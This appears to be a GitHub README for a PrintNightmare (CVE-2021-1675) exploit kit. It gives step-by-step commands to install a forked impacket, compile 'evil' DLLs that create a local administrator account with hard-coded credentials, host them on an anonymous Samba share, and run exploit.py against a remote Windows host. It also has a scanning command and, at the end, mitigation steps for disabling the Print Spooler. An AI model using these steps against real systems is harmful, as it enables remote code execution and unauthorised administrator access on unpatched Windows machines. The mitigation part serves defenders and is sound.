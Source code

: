 # CVE-2021-1675

Borrowed from [cube0x0](https://twitter.com/cube0x0) impacket fork: https://github.com/cube0x0/CVE-2021-1675  

### Install

```
pip3 uninstall impacket
git clone --branch PrintNightmare https://github.com/LuemmelSec/impacket
cd impacket
python3 -m pip install .
apt install mingw-w64
```

### Build DLL (64 bit)
I used this version: https://github.com/newsoft/adduser  

You can use the evil32.dll or evil64.dll under ./DLL
Username: PWND  
Password: B@dPass123!

Or build your own:  
```
cd DLL  
cp Tchar.h /usr/x86_64-w64-mingw32/include/
cp Lmaccess.h /usr/x86_64-w64-mingw32/include/
cp Tchar.h /usr/i686-w64-mingw32/include
cp Lmaccess.h /usr/i686-w64-mingw32/include/
```

Edit the evil.c to your needs:  
- change username & password  
- change name of the local admin group -> language dependant  

Build the DLL  64 bit:  
```
x86_64-w64-mingw32-gcc -shared -oevil64.dll evil.c -lnetapi32
cp evil64.dll /tmp/
```

Build the DLL 32 bit:  
```
i686-w64-mingw32-gcc -shared -oevil32.dll evil.c -lnetapi32
cp evil32.dll /tmp/
```

### SMB configuration

#### Linux  

Easiest way to host payloads is to use samba and modify `/etc/samba/smb.conf   ` to allow anonymous access

```
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[smb]
    comment = Samba
    path = /tmp/
    guest ok = yes
    read only = no
    browsable = yes
    force user = smbuser
```

Start SMB Service
```
service smbd start
```

#### Windows

But you can also go the Windows route.  
You may use the following scripts to make all needed changes according to the languages:  
https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-Anonymoussmb_de.ps1  
https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-Anonymoussmb_en.ps1  

Tested on Windows 10, but should work on all other Windows versions.  

### exploit.py

```
python3 exploit.py mcafeelab.local/lowpriv@10.55.0.1 '\\10.55.0.30\smb\evil64.dll'
```


### Scanning

We can use `rpcdump.py` from impacket to scan for vulnerable hosts, if it returns a value, it's vulnerable 

```
rpcdump.py @192.168.1.10 | grep MS-RPRN

Protocol: [MS-RPRN]: Print System Remote Protocol
```

### Mitigation

Disable Spooler service (might not be suitable on systems where local printing like PDF printers are needed - so test it).  
And please: NO FCKN DCs NEED THIS SERVICE!!!  

```powershell
Stop-Service Spooler
REG ADD  "HKLM\SYSTEM\CurrentControlSet\Services\Spooler"  /v "Start " /t REG_DWORD /d "4" /f
```

Or Uninstall Print-Services

```powershell
Uninstall-WindowsFeature Print-Services
```

If one day there will be patches from MS to address all the flaws -> install them ASAP.  

### Further reading / tools  
[Kevin Beaumont](https://twitter.com/GossiTheDog) gathered the most relevant facts and collected them here:  
https://doublepulsar.com/zero-day-for-every-supported-windows-os-version-in-the-wild-printnightmare-b3fdb82f840c

[Marcello](https://twitter.com/byt3bl33d3r) build a tool to scan for vulnerable systems from linux without actually exploiting them:  
https://github.com/byt3bl33d3r/ItWasAllADream  

[Benjamin Delpy](https://twitter.com/gentilkiwi) integrated the attack in the newest version of [mimikatz](https://github.com/gentilkiwi/mimikatz).  
